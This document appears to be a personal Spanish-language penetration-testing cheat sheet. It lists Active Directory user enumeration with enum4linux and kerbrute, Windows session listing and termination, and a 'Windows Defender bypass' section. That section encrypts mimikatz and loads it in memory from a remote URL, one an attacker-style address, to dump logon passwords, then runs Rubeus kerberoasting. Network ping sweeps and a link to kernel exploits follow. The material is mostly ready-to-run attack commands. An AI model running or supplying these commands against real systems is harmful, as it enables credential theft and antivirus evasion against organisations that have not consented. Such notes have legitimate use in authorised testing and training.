 #Active Directory

enum4linux -s <ip> #obtiene el SID del dominio de la ip


./kerbrute userenum --dc dominio.local -d dominio <user_list.txt> -t 100




# EXTRAS
Windows
Saber usuarios conectados en el equipo 
qwinsta /SERVER:nombredelequipo
Para sacar usuarios conectados en el equipo ej usuario llamado 'rdp-tcp#0'
rwinsta tdp-tcp#0 /SERVER:nombreequpo
5rtg

#Ejecucion encryptada de mimikatz Windows Defender Bypass
git clone https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader   (sharpencrypt para encriptar mimikatz / sharploader correr en memoria)
Encriptar:
Invoke-SharpEncrypt -file C:\CSharpFiles\SafetyKatz.exe -password S3cur3Th1sSh1t -outfile C:\CSharpEncrypted\SafetyKatz.enc
Invoke-SharpEncrypt -file <pathfile>mimikatz.exe -password loquesea -outfile safetykatz.enc

Cargar desde URL
Invoke-SharpLoader -location https://raw.githubusercontent.com/S3cur3Th1sSh1t/Invoke-SharpLoader/master/EncryptedCSharp/SafetyKatz.enc -password S3cur3Th1sSh1t -noArgs
Invoke-SharpLoader -location https://10.10.10.10/SafetyKatz.enc -password loquesea -argument privilege:debug -argument2 sekurlsa::logonPasswords

Cargar desde disco
Invoke-SharpLoader -location C:\EncryptedCSharp\Rubeus.enc -password S3cur3Th1sSh1t -argument kerberoast -argument2 "/format:hashcat"


#Informacion de conexiones (Jekyll)
lsof -i  (list open files /conexiones...)
ps -eL  (L: show threads, e: process id)


MATERIAL QUE POSIBLEMENTE SE PUEDA UTILIZAR
https://github.com/SecWiki/windows-kernel-exploits


#EDAD DE PIEDRA:
Hacer ping con bat a una red entera 
Windows
ejecutar en cmd con priv de admin
FOR /L %i IN (1,1,254) DO ping -n 1 192.168.1.%i | FIND /i "Reply"
Linux
ejecutar en terminal
for ip in $(seq 1 254); do ping -c 1 192.168.1.$ip; done
for ip in $(seq 1 254); do ping -c 1 192.168.1.$ip;done |grep ttl   - te filtra solo ips encontradas (podria mejorarse)
